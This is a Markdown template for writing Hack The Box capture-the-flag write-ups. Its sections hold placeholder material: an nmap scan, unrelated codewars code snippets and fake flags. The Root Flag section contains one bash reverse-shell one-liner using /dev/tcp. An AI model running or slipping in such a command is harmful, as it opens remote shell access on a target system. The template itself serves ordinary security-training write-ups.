



---
title: "Hack The Box - BOX NAME HERE"
author: Ryan Kozak
date: "2019-08-11"
subject: "CTF Writeup Template"
keywords: [HTB, CTF, Hack The Box, Security]
lang: "en"
titlepage: true
titlepage-text-color: "FFFFFF"
titlepage-color: "0c0d0e"
titlepage-rule-color: "8ac53e"
logo: "./images/badge.png"
logo-width: 350
toc: true
toc-own-page: true
...

*Everything below is just random stuff for the sake of example.*

# Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
x@wartop:~$ nmap -sVC 192.168.100.6

Starting Nmap 7.01 ( https://nmap.org ) at 2019-08-11 08:57 PDT
Nmap scan report for 192.168.100.6 (192.168.100.1)
Host is up (0.022s latency).
Not shown: 996 closed ports
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9 (protocol 2.0)
53/tcp  open  domain
81/tcp  open  http     Apache httpd
|_http-server-header: Apache
444/tcp open  ssl/http Apache httpd
|_http-server-header: Apache
| ssl-cert: Subject: commonName=192.168.100.6
| Not valid before: 2018-07-06T14:40:08
|_Not valid after:  4756-06-01T14:40:08

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 201.22 seconds
```
From the above output we can see that ports, **22**, **53**, **81**, and **444** are the ports open. This is just an example to show code formatting so who cares.

Look  here's an image of my website, this is how you format an image.


\ **Figure 1:** My Website



\ **Figure 2:** Github Profile

Maybe we want to show some python code too, to let's take a look at a snipped from [codewars](https://www.codewars.com) to format time as human readable.

```python
def make_readable(seconds):        

    hours = seconds / 60**2
    minutes = seconds/60 - hours*60
    seconds = seconds - hours*(60**2) - minutes*60

    return '%02d:%02d:%02d' % (hours, minutes, seconds)
```


# Exploitation  

In order to gain our initial foothold we need to blablablabla. Here's another code snippet just for fun.

```php
function sqInRect($lng, $wdth) {

    if($lng == $wdth) {
      return null;
    }

    $squares = array();

    while($lng*$wdth >= 1) {
      if($lng>$wdth) {
        $base = $wdth;
        $lng = $lng - $base;
      }
      else {
        $base = $lng;
        $wdth = $wdth - $base;
      }
      array_push($squares, $base);
    }
    return $squares;
}
```
Above is the php code for the **Rectangle into Squares** kata solution from codewars.


## User Flag

In order to get the user flag, we simply need to use `cat`, because this is a template and not a real writeup!

```
x@wartop:~$ cat user.txt
6u6baafnd3d54fc3b47squhp4e2bhk67
```

## Root Flag

The privilege escalation for this box was not hard, because this is an example and I've got sudo password. Here's some code to call a reverse shell `bash -i >& /dev/tcp/127.0.0.1/4444 0>&1`.



\ **Figure 3:** root.txt v5gw5zkh8rr3vmye7p4ka


# Conclusion
In the conclusion sections I like to write a little bit about how the box seemed to me overall, where I struggled, and what I learned.

# References
1. [https://ryankozak.com/how-i-do-my-ctf-writeups/](https://ryankozak.com/how-i-do-my-ctf-writeups/)
2. [https://github.com/Wandmalfarbe/pandoc-latex-template](https://github.com/Wandmalfarbe/pandoc-latex-template)
3. [https://hackthebox.eu](https://hackthebox.eu)
4. [https://forum.hackthebox.eu](https://forum.hackthebox.eu)
